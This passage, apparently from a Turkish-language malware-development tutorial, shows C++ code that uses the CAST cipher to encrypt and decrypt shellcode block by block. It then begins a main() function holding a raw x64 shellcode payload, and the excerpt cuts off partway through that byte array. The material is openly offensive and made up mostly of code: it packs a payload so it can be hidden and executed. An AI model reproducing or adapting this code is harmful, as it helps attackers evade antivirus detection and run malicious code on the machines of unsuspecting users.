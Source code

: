 ```cpp
void cast_decrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}
```

Ana mantık, shellcode şifreleme ve şifre çözme fonksiyonlarını içermektedir:   

```cpp
void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}
```

Gördüğünüz gibi, shellcode'u blok blok işlerler (`8 bayt` biriminde). Eğer shellcode'un uzunluğu blok boyutunun katı değilse, şifreleme öncesinde (`0x90`) ile doldurulur ve buna göre çözülür.   

Son olarak, yükü çalıştırmamız gerekiyor:    

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
```